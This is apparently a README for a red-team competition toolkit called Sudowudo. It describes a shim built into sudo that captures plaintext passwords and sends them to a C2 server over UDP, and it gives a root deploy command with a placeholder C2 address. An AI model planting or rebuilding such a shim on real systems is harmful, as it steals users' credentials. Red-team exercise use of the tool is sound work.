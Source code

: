 # Sudowudo 
## (And other various shims)

This repository is home to a few binary shims used for red team competitions. These scripts and tools are not intended to be used anywhere outside of blue/red team competitions as it's essentially malware.

Sudowudo takes advantage of tgetpass.c by stealing and exfiltrating the plaintext password before it's used, and sending it to a C2 server via a UDP datagram.

To deploy the shim on a device, run deploy as root and provide the IP of the C2 server and it's port. This will clone the OS specific version of sudo, add the shim, and then build it using make.

`sudo ./deploy XXX.XXX.XXX.XXX 1337`

## Requirements


